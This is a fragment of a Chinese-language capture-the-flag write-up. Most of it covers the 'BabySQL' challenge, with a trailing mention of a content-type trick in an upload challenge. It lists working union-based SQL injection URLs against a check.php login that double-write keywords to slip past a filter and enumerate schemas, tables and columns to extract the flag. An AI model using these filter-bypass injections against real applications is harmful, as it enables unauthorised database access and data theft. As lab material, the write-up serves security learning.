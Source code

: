 更改文件类型：

```
image/jpeg
```

得到flag

## 0xF.[极客大挑战 2019]BabySQL

```
对or by 有过滤
用union select试下
check.php?username=admin&password=111 %27 uniounionn selecselectt 1,2,3%23

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(schema_name),3 frofromm infoorrmation_schema.schemata %23
可疑数据库：ctf

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(table_name),3 frofromm infoorrmation_schema.tables whewherere table_schema='ctf' %23
有Flag表

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(column_name),3 frofromm infoorrmation_schema.columns whewherere table_schema='ctf' aandnd column_name='Flag'%23
有flag

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,flag,3 frofromm ctf.Flag%23
得到flag
```

